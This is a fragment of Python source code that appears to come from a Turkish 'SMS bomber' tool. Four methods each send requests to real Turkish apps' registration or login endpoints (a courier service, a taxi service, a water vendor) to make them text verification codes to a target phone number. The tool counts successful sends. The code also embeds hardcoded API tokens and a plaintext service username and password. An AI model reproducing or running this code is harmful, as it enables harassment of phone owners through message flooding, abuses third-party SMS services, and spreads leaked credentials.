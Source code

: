     
    #kuryemgelsin.com
    def KuryemGelsin(self):
        try:
            url = "https://api.kuryemgelsin.com:443/tr/api/users/registerMessage/"
            json={"phoneNumber": self.phone, "phone_country_code": "+90"}
            r = requests.post(url=url, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.kuryemgelsin.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.kuryemgelsin.com")
    
    
    #porty.tech
    def Porty(self):
        try:
            url = "https://panel.porty.tech:443/api.php?"
            headers = {"Accept": "*/*", "Content-Type": "application/json; charset=UTF-8", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "User-Agent": "Porty/1 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Token": "q2zS6kX7WYFRwVYArDdM66x72dR6hnZASZ"}
            json={"job": "start_login", "phone": self.phone}
            r = requests.post(url=url, json=json, headers=headers, timeout=6)
            if r.json()["status"]== "success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> panel.porty.tech")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> panel.porty.tech")
            
    
    #taksim.digital
    def Taksim(self):
        try:
            url = "https://service.taksim.digital:443/services/PassengerRegister/Register"
            headers = {"Accept": "*/*", "Content-Type": "application/json; charset=utf-8", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "tr-TR,tr;q=0.9", "User-Agent": "TaksimProd/1 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Token": "gcAvCfYEp7d//rR5A5vqaFB/Ccej7O+Qz4PRs8LwT4E="}
            json={"countryPhoneCode": "+90", "name": "Memati", "phoneNo": self.phone, "surname": "Bas"}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["success"]== True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> service.taksim.digital")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> service.taksim.digital")
    
    
    #vakiftasdelensu.com
    def Tasdelen(self):
        try:
            url = "http://94.102.66.162:80/MobilServis/api/MobilOperation/CustomerPhoneSmsSend"
            json= {"PhoneNumber": self.phone, "user": {"Password": "Aa123!35@1","UserName": "MobilOperator"}}
            r = requests.post(url=url, json=json, timeout=6)
            if r.json()["Result"]== True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> 94.102.66.162:80")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> 94.102.66.162:80")
    